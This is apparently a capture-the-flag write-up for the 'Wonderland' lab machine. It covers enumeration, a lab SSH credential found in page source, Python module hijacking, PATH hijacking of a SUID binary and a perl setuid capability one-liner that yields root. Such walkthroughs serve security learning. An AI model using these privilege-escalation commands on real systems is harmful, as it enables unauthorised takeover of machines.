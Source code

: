 # Here Are Notes For My WriteUp

## Enumeration
nmap scan:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
dirb scan:
```
---- Scanning URL: http://10.10.2.87/ ----
==> DIRECTORY: http://10.10.2.87/img/                                             
+ http://10.10.2.87/index.html (CODE:301|SIZE:0)                                  
==> DIRECTORY: http://10.10.2.87/r/    
```

### [port 80] - website
title says "Follow the White Rabbit.", there is also a picture of a white rabbit on the site
![[Pasted image 20211022000513.png]]

during the dirb scan we find a directory "r", now when we go to this directory we are confronted with this message:
```
# Keep Going.

"Would you tell me, please, which way I ought to go from here?"
```
![[Pasted image 20211022001051.png]]
now, knowing what we know with all the rabbit stuffs we can assume there might be another directory following the word rabbit, and sure enough when we direct to "/r/a" it continues this message:
```
# Keep Going.

"That depends a good deal on where you want to get to," said the Cat.
```
![[Pasted image 20211022001227.png]]
now im not going to waste time in this so we'll just skip to the part where we get to "/r/a/b/b/i/t" where we find this:
![[Pasted image 20211022001333.png]]

## Initial Foothold
---
now, inspecting the source code we find an ssh username and password for the user "alice" 
![[Pasted image 20211022001558.png]]
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
we can assume this is an ssh login as it is the only other service running on this machine, and sure enough... it works!
![[Pasted image 20211022001830.png]]

![[Pasted image 20211022002113.png]]
listing alice's directory we find two iregular things, for one the root flag is stored on the user's profile, yet no user flag is to be found, odd. the next iregular thing would be the python script named "walrus_and_the_carpenter.py"


now, lets start some priviledge escalatin !!

## Priviledge Escalation
i love this machine as it requires alot of horizontal movement, and features some cool privesc, not just a kernel exploit here and there (atleast, not at the beginning, tehe)

### Moving Laterally (alice -> rabbit)
first thing i usually do when i have a password for a user is to run "sudo -l" to see if we are able to run anything as root or a more priviledged user. running this here we find out we can run the python script we found earlier as the user "rabbit"
![[Pasted image 20211022002946.png]]

now looking into the script, we see that it imports the "random" module and prints 10 random lines from the "poem" variable:
```python
import random
poem = "long fucking poem lulull"

for i in range(10):
    line = random.choice(poem.split("\n"))
```
**NOTE: THE POEM VARIABLE HAS BEEN SHORTENED AS TO NOT MAKE THIS SCRIPT TAKE UP HALF OF THE PAGE**

now you may be thinking to yourself, welp this script cant help us at all, its IRON CLAD!! welp, you'd be wrong !!!! 

before we start writing our own script, let me give you a brief lesson in how python accesses modules. now when you import a module python first, before looking for it elsewhere checks locally, within the folder that the script is stored in to see if there is a python file with the same name. 

knowing this we can now go ahead and intercept the search for the "random" module by writing our own "random.py" script, using the "choice" function to spawn a shell, as this is what function the script is accessing. here is what our "random.py" should look like

```
import pty

def choice(x):
    pty.spawn("/bin/bash")
```
remember and add the "(x)" as the script provides an input and we dont want to cause any unwanted errors, and we dont need to return anything because we will have shell lul (technically we could set a keypress to return and exit the program if we need a way out but i cba writing that in lulu :p)

now for a sanity check lets run the code on the interpreter just to check pty will work on this machine:
![[Pasted image 20211022004354.png]]
as we can see, it works perfect :)

now running 
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
we should now get a shell as rabbit!
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

now moving to /home/rabbit we find a perculiar file 
![[Pasted image 20211022004932.png]]

---
### Moving Laterally Once More (rabbit -> hatter)
looking at this file's permisions we see that it is a SUID binary !!!! woow, now how this is going to work is verry similar to what we just did with random.py, only now with bash !!!!!
![[Pasted image 20211022005141.png]]

as we can see this is an executable, not a script so we cant just cat it out like normal... or can we?

![[Pasted image 20211022005347.png]]
catting out the executable shows a bunch of gibberish but around the middle we can see some text !!!!! normally we would run strings to see this more clearly but this machine doesnt seem to have it installed :(

looking at the text we can read we see a possible attack vector... date!!!!!

now you may also see the echo command being used, but we cannot use this as an attack vector as this uses a full path to the echo file, however, date does not. and we can use this to our advantage.

#### SUID TUTORIAL FOR NEWBS
#### #1 - FIND ATTACK VECTOR
done :)
#### #2 - MAKE UR SCRIPT
now we have our attack vector "date", we can now create a fake "date" script and make the "teaParty" script run our fake one and give us a shell, ez-pz!!! write this script and save it as "date"
```bash
#!/bin/bash

bash
```

#### #3 - MAKE IT ABL 2 RUN
now run chmod +x on our script to make it executable
```bash
chmod +x /home/rabbit/date
```

#### #4 - ADD THE SCRIPT'S FOLDER TO THE START OF THE $PATH VARIABLE SO THE EXECUTABLE SEE'S OUR MALICIOUS SCRIPT FIRST
move to /home/rabbit/date and run this command
```bash
export PATH=$(pwd):$PATH
```

#### #5 - HOPE FOR THE BEST
now for the moment of truth, run the teaParty script and you should hopefully have a shell!!!!!
![[Pasted image 20211022010818.png]]

and boom !!! we have sucessfully privesc'd 2 accounts. now to get to root, hehe :3

we can start by moving to /home/hatter where we find an ssh password for hatter, deserved after having to deal with 2 variations of shitty shells heheh..
![[Pasted image 20211022011257.png]]

### The Final Beast - (hatter -> root)
Congrats, we are now on the last stage, and probably the most fluid method of them all, the few before this were layed pretty much right infront of us, but this is more just up to what you know.

now personally the method i went for was setuid capabilities found in perl, now this, as far as i know isnt very common. or atleast very basically known, but my friend stumbled upon it while running privesc enum scripts and looking at gtfobins

so run:
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
and hey presto!! we have root!
![[Pasted image 20211022012719.png]]

capabilities seems to be really powerful, so im going to research them a bit more after this hahah

## Finding user.txt
now we know where root.txt is, but we never saw user.txt anywhere..

```
find / -type f -name user.txt 2>/dev/null
```
![[Pasted image 20211022013113.png]]

hmmm... it seems root and user switched places !!!! well, this is very odd heheh.. oh well, not the matter, we can now access both!!!
![[Pasted image 20211022013217.png]]

![[Pasted image 20211022013259.png]]

boom, one step closer to 0xA, heheh


